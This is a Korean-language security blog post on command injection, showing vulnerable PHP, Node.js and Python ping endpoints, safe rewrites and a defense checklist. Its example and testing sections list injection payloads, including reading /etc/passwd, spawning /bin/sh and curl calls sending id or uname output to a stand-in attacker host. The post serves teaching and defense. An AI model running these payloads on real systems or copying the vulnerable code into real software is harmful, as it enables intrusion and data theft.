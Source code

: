 ```yaml
---
title: "[Infosec] Command Injection 정리: 개념·페이로드·예방법"
date: 2025-09-11 11:10:00 +0900
categories: [보안, Web]   # 카테고리는 여러 계층도 가능 [상위, 하위]
tags: [웹해킹, CommandInjection, OSCommand, RCE, Shell]          # 해시태그처럼 글 묶기
description: "시스템에 접근하라"
author: "송지민"
toc: true
---
```

# 입력 한 줄로 서버를 장악하는 최강의 무기

---

> ⚠️ 이 글은 **보안 학습/방어** 목적입니다. 모든 실습은 **본인 로컬/테스트 환경**에서만 하세요.

## Command Injection이란?

웹/서버 코드가 사용자 입력을 받아 **셸 명령에 그대로 붙여 실행**할 때, 공격자가 입력을 조작해 **임의 명령을 실행**시키는 취약점입니다.  
PHP의 `system()`, Node.js의 `child_process.exec()`, Python의 `os.system()` 처럼 **셸을 거쳐 실행**되는 함수에서 특히 위험합니다.

- 핵심 조건: **“명령 실행 함수에 사용자 입력이 직접 들어간다”**
- 결과: 서버에서 **임의 코드 실행(RCE)**, 파일 읽기/수정, 내부망 스캔, 크리덴셜 탈취 등

---

## 셸 메타문자(연산자) 빠르게 보기

| 기호 | 의미 | 예시 |
|---|---|---|
| `` `cmd` `` | 명령치환 | ``echo `whoami` `` |
| `$(cmd)` | 명령치환 | `echo $(date)` |
| `&&` | 앞 명령 성공 시 다음 실행 | `ping 1.1.1.1 && id` |
| `\|\|` | 앞 명령 실패 시 다음 실행 | `cat nope \|\| echo hi` |
| `;` | 순차 실행(성공/실패 무관) | `id; uname -a` |
| `\|` | 파이프 | `cat /etc/passwd \| wc -l` |
| `>` `>>` `2>&1` | 리다이렉션 | `id > /tmp/o` |
| `*` `?` `[]` | 글롭(glob) | `cat *.log` |
| `'` `"` `\` | 인용/이스케이프 | `'abc'`, `"a b"`, `\` |
| `$VAR` `${VAR}` | 변수 치환 | `echo $PATH` |

> Windows(`cmd.exe`)는 `&`, `&&`, `||`, `|`, `^`, `%VAR%` 등이 주요 연산자입니다.

---

## 공격이 어떻게 일어나나 (예시)

사용자 입력으로 `IP`를 받아 **핑**을 보내는 코드가 있다고 가정합니다.

### ❌ 취약한 코드

**PHP**
```php
<?php
$ip = $_GET['ip'];
// 취약: 셸 한 줄 문자열에 사용자 입력을 그대로 결합
system("ping -c 1 " . $ip);
```
**Node.js**
```js
const { exec } = require("child_process");
app.get("/ping", (req, res) => {
  const ip = req.query.ip;
  exec(`ping -c 1 ${ip}`, (e, out, err) => res.send(out ?? err));
});
```
**Python**
```python
from flask import request
import os
@app.route("/ping")
def ping():
    ip = request.args.get("ip")
    # 취약
    return os.popen(f"ping -c 1 {ip}").read()
```

공격자 입력 예시(유닉스):
```
8.8.8.8; cat /etc/passwd
8.8.8.8 && curl -s https://attacker.example/i?u=$(id)
127.0.0.1 | /bin/sh
```

Windows 예시:
```
8.8.8.8 & type C:\Windows\win.ini
8.8.8.8 && whoami
```

---

## 안전하게 고치기 (핵심 3원칙)

### 1) **셸을 쓰지 말 것** — API/라이브러리 사용
- 핑 체크가 목적이라면 **네트워크 라이브러리**나 **ICMP 모듈** 사용을 우선 고려.

### 2) **셸을 쓴다면 인자 배열 + `shell=false`**
- 명령·인자를 **배열로 전달**하면 셸 메타문자 해석을 막을 수 있습니다.

**Node.js (✅ 안전)**
```js
const { execFile } = require("child_process");
app.get("/ping", (req, res) => {
  const ip = req.query.ip;
  // 1) 허용목록 검증(IPv4/IPv6)
  if (!/^(?:\d{1,3}\.){3}\d{1,3}$/.test(ip)) return res.status(400).send("bad ip");
  // 2) execFile: 셸을 거치지 않음
  execFile("ping", ["-c", "1", ip], { shell: false }, (err, out, e) => {
    if (err) return res.status(500).send("fail");
    res.type("text/plain").send(out);
  });
});
```

**Python (✅ 안전)**
```python
import subprocess, ipaddress
def is_ip(v):
    try: ipaddress.ip_address(v); return True
    except: return False

@app.route("/ping")
def ping():
    ip = request.args.get("ip","")
    if not is_ip(ip): return "bad ip", 400
    r = subprocess.run(["/bin/ping","-c","1",ip], capture_output=True, text=True, shell=False)
    return (r.stdout if r.returncode==0 else "fail"), (200 if r.returncode==0 else 500)
```

**PHP (가능하면 셸 미사용, 부득이하면)**
```php
<?php
$ip = $_GET['ip'] ?? '';
if (!filter_var($ip, FILTER_VALIDATE_IP)) { http_response_code(400); exit('bad ip'); }
// 최소: escape + 명령/인자 분리
$cmd = ['/bin/ping','-c','1',$ip];
// Symfony Process 같은 라이브러리 사용 권장 (인자 분리 지원)
```

> `escapeshellarg()`는 도움이 되지만 **셸을 통과**한다는 점에서 최선은 아닙니다. 가능하면 **execFile/subprocess.run 배열 전달**을 쓰세요.

### 3) **허용목록(allowlist) + 엄격한 검증**
- IP/도메인/옵션 등 입력은 **형식 검증** + **허용된 값만 통과**
- 절대 경로 사용(예: `/bin/ping`)으로 `PATH` 오염 방지
- 환경 고정: `{ PATH: "/usr/bin:/bin" }` 같이 제한

---

## 진단 팁 (테스트 페이로드)

- 성공/실패 분기: `; id`, `&& id`, `| id`
- 파일 읽기: `; cat /etc/passwd` / `& type C:\Windows\win.ini`
- 외부로 유출: `; curl -s https://attacker.example/i?d=$(uname -a)`
- 시간 지연: `; sleep 5` / `& timeout /T 5` (Windows)
- 새 셸 시도: `| /bin/sh`

> 로깅 시 **원본 입력**과 **실행 라인**을 분리 저장하면 포렌식에 큰 도움.

---

## 방어 체크리스트 (실무)

1. **셸 호출 금지**: 가능하면 네이티브 API/라이브러리로 대체  
2. **명령/인자 분리**: `execFile`, `subprocess.run([...], shell=False)`  
3. **입력 검증**: 정규식/파서/표준 라이브러리로 엄격 검증, 허용목록 적용  
4. **권한 최소화**: 실행 계정/컨테이너 권한 최소화, `chroot`/container/AppArmor/SELinux  
5. **환경 고정**: `PATH`, `IFS`, 지역화 변수(LANG/LC_*) 제어  
6. **절대 경로**로 바이너리 지정 (`/usr/bin/grep` 등)  
7. **출력/오류 분리 포착**: 명령 결과를 그대로 클라이언트에 노출하지 말 것  
8. **보안 테스트**: 정적분석(사용자 입력→명령 실행 데이터플로우), 동적 스캐닝, 코드리뷰  
9. **로그/알림**: 실패/지연/특이 인자를 알림으로 전송

---

## 흔한 함정

- **에스케이프만 믿기**: 인코딩/이스케이프는 우회 여지가 많음 (따옴표 종료, 인코딩 미스매치)  
- **`sudo`로 명령 노출**: `sudo` 대상 명령에 **사용자 인자**를 그대로 전달하면 똑같이 위험  
- **임시파일/리디렉션**: `>`, `2>&1` 등으로 파일 덮어쓰기 유도 가능  
- **Windows 특성**: `cmd.exe`와 `powershell.exe`의 연산자는 다름—각각의 메타문자 차이를 고려

---

## 요약

- Command Injection은 **셸을 통과하는 실행 경로**와 **사용자 입력 결합**에서 발생.  
- 최선의 방어는 **셸을 쓰지 않는 것**. 부득이하면 **인자 배열 + shell=false**를 사용하고, **허용목록**과 **환경 고정**으로 표면을 줄이자.  
- 테스트는 간단한 페이로드부터( `; id`, `&& whoami` ) 시작해 **시간/외부요청** 기반으로도 확인.
